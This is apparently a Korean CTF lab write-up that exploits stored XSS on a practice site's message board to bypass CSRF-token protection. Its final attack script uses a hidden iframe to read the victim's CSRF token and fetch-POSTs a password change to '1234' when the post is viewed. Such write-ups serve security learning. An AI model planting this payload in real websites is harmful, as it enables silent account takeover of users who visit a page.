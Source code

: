 ```yaml
---
title: "CSRF 실습 문제 3"
excerpt: "CSRF 실습 문제 풀어보기"
tags:
    - csrf
    - xss
last_modified_at: 2023-05-25T10:13:00-05:00
---
```


## 문제
- 계정의 비밀번호를 바꿔야하는 문제이다.<br>![Pasted image 20230525174119](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/0b2bfe87-7ca0-41c8-a52a-21915ca2ee67)


## 분석및 취약점 찾기

### 로그인
- 오직 POST 요청으로 만 로그인 시도가 가능하다.
- 로그인에 성공하면 index.php로 리다이렉션 응답이 온다.<br>![Pasted image 20230525174428](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/66a1dd0c-8015-4c2a-911d-ed822b161ce3)

### 게시판
- 제목과 본문에 XSS 취약점이 존재한다. 취약점 유형은 **Stored XSS** 이다.
- 제목<br>![Pasted image 20230525174620](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/75fd34d6-c2f1-4dfb-a4ff-f870e64e63a3)<br>![Pasted image 20230525174637](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/6c84a722-dc91-4ef4-bca3-9876132c43e7)
- 본문<br>![Pasted image 20230525174704](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/8bfbeb17-1032-4d4f-8dfb-bce9bbce73e2)<br>![Pasted image 20230525174720](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/54f1639f-1e9f-4d6c-9248-8b608cbe1d03)


### 비밀번호 변경 요청
- 비밀번호 변경 요청을 보내기 위해서는 서버에서 제공한 csrf 토큰 값이 필요하다.
- 비밀번호 변경 POST 요청을 보낼때 csrf 토큰 값도 같이 전송된다.
- csrf 토큰 값은 마이페이지에 방문하였을 때 서버에서 할당해주는 값이다.<br>![Pasted image 20230525175632](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/a34bfa78-a1d5-47e5-9c2a-ba1df25d1521)
![[Pasted image 20230525175632.png]]
- burp suite의 리피터 기능으로 referer 값을 변경하여 전송해 보았는데 비밀번호가 잘 변경되었다. 즉 referer 검사 기능은 없는것 같다.
- 정상적인 referer<br>![Pasted image 20230525181508](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/fb3c5a77-e649-4a17-8edc-e8fcd84779d1)<br>![Pasted image 20230525181518](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/8c171a27-902d-4294-8234-3556942065af)
- referer 변경<br>![Pasted image 20230525181718](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/fca173d6-f89a-4453-9fb7-98add3e37262)<br>![Pasted image 20230525181518](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/dca8c56c-7fc4-41ec-9092-715a3f3bbf5d)
- 비밀번호 변경이 완료되면 `index.php`로 이동한다.



## 비밀번호 변경 시나리오

<img class="mermaid" src="https://mermaid.ink/svg/eyJjb2RlIjoic2VxdWVuY2VEaWFncmFtXG7qs7XqsqnsnpAgLT4-IOyEnOuyhCA6IOyVheyEsSDsiqTtgazrpr3tirgg64Sj7J2AIOqyjOyLnOq4gCDsnpHshLEg7KCA7J6lIOyalOyyrVxu7ISc67KEIC0-PiDqs7XqsqnsnpAgOiDsoIDsnqUg7JmE66OMIOydkeuLtVxu7IKs7Jqp7J6QIC0-PiDshJzrsoQgOiDqs7XqsqnsnpAg6rKM7Iuc6riAIO2OmOydtOyngCDsmpTssq1cbuyEnOuyhCAtPj4g7IKs7Jqp7J6QIDog6rKM7Iuc6riAIOydkeuLtVxu7IKs7Jqp7J6QIC0-PiDsgqzsmqnsnpAgOiDslYXshLEg7Iqk7YGs66a97Yq4IOyLpO2WiVxu7IKs7Jqp7J6QIC0-PiDshJzrsoQgOiDruYTrsIDrsojtmLgg67OA6rK9IOyalOyyrVxu7ISc67KEIC0-PiDsgqzsmqnsnpAgOiDruYTrsIDrsojtmLgg67OA6rK9IOyZhOujjCDsnZHri7UiLCJtZXJtYWlkIjpudWxsfQ">

1. 공격자는 비밀번호 변경 요청 스크립트를 넣은 게시글을 작성한다.
2. 사용자가 공격자 게시글을 방문하면 사용자 브라우저에서 악성 스크립트가 실행되어 비밀번호가 자동으로 변경된다.
3. 사용자는 비밀번호가 변경되었다는 사실을 다시 로그인 하기 전 까지는 알 수가 없다.


## 공격 스크립트

### CSRF Token 얻기
- 마이페이지에서 csrf 토큰을 가져와야한다.
- iframe 태그를 이용하여 csrf 토큰을 가지고오자.

```html
<iframe style="display:none;" src="http://ctf.segfaulthub.com:7777/csrf_3/mypage.php" onload="load()"></iframe>
<script>
function load(){
	var token = document.getElementsByTagName("iframe")[0].contentWindow.document.getElementsByName("csrf_token")[0].value;
	alert(token);
}
</script>
```


### 비밀번호 변경 요청 보내기
- iframe로 얻은 csrf 토큰 값을 변경할 비밀번호와 같이 보내준다.
- fetch를 이용하여 POST 요청을 보내준다.

```js
fetch("mypage_update.php", {
method:"POST",
	headers: {
		"Content-Type": "application/x-www-form-urlencoded"
	},
	body: "id=&info=&pw="+pw+"&csrf_token="+token
}).then(res => console.log(res.text()));
```


### 최종 공격 스크립트
- iframe을 통해 마이페이지를 가장 먼저 로딩해야 한다.
- csrf토큰을 가져온다.
- fetch 함수를 이용하여 비밀번호 변경 POST 요청을 보낸다.

```html
<iframe style="display:none;" src="http://ctf.segfaulthub.com:7777/csrf_3/mypage.php" onload="load()"></iframe>
<script>
function load(){
	var pw = "1234";
	var token = document.getElementsByTagName("iframe")[0].contentWindow.document.getElementsByName("csrf_token")[0].value;
	fetch("mypage_update.php", {
	method:"POST",
		headers: {
			"Content-Type": "application/x-www-form-urlencoded"
		},
		body: "id=&info=&pw="+pw+"&csrf_token="+token
	}).then(res => console.log(res.text()));
}
</script>
```


## 공격 시작
1. 공격자는 악성 스크립트가 담긴 게시글을 작성한다.<br>![Pasted image 20230525190354](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/bf9a2752-469c-44a0-867c-5a179180c263)
2. 게시글 저장 확인<br>![Pasted image 20230525190423](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/def52236-bbb6-4b6f-a9e6-e955dcc5086a)
3. 사용자가 게시글을 방문하면 악성 스크립트가 실행되어 사용자의 비밀번호를 "1234"로 변경한다.
4. Burp Suite로 확인하였을 때 POST 요청이 잘 되었다는 것을 확인할 수 있다.<br>![Pasted image 20230525190829](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/3fc2fc06-bd0f-4f39-9612-8570069fa9ba)<br>![Pasted image 20230525190845](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/0f44c814-b04d-456d-aefd-5b860d6eb904)




## 결론
- csrf 공격을 예방하기 위하여 서버에서는 csrf 토큰을 사용하였지만 서버의 xss 취약점과 iframe 태그를 이용하여 csrf 토큰 방어법을 우회하였다.
- fetch 함수를 통해 POST 전송을 보다 쉽게할 수 있었다.<br>![Pasted image 20230525190729](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/d286ca44-4185-4277-ad72-e8fb5bdee8b3)
- 사용자는 정상적으로 게시글을 확인하였다고 느낀다.<br>![Pasted image 20230525191153](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/3afde40a-f935-45fa-b5a2-dd7038de3ebd)





